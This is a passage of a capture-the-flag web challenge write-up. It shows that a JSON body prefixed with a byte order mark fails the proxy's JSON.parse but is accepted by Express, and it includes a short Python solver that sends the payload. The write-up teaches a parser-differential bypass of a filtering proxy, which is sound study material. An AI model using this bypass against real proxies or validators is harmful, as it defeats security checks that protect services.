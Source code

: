 ```javascript
  replyOptions: {
    rewriteRequestHeaders: (_req, headers) => {
      headers["content-type"] = "application/json";
      return headers;
    },
  },
});

app.listen({ port: PORT, host: "0.0.0.0" });
```
However, the `proxy` server returns `🚩` when it receives a JSON containing a key `givemeflag`.

### Solution

You should make a JSON that satisfies the following conditions:

- The `backend` server, i.e. a JSON parser of Express, recognizes it as a JSON containing a key `givemeflag`.
- The `proxy` server fails to parse it as a JSON value at `JSON.parse(req.body)`.

In conclusion, the following JSON satisfies them where `\ufeff` is a BOM:
```json
\ufeff{"givemeflag": true}
```

Web frameworks often allow JSON values to be added a BOM at the beginning. For example, Fastify and Express check a BOM at:

- Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
- Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

It is also mentioned on section 8.1 of RFC 8259:

> Implementations MUST NOT add a byte order mark (U+FEFF) to the beginning of a networked-transmitted JSON text.  In the interests of interoperability, implementations that parse JSON texts **MAY** ignore the presence of a byte order mark rather than treating it as an error.
>
> From: https://datatracker.ietf.org/doc/html/rfc8259#section-8.1

On the other hand, `JSON.parse` does not allow a BOM:
```javascript
> JSON.parse('{"givemeflag": true}')
{ givemeflag: true }
> JSON.parse('\ufeff{"givemeflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"givemef"... is not valid JSON
```

### Solver

```python
import httpx
import os

BASE_URL = os.environ["WEB_BASE_URL"]

res = httpx.post(
    BASE_URL,
    headers={"Content-Type": "text/plain"},
    content='\ufeff{"givemeflag": true}',  # UTF-8 BOM
)
print(res.text)
```


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/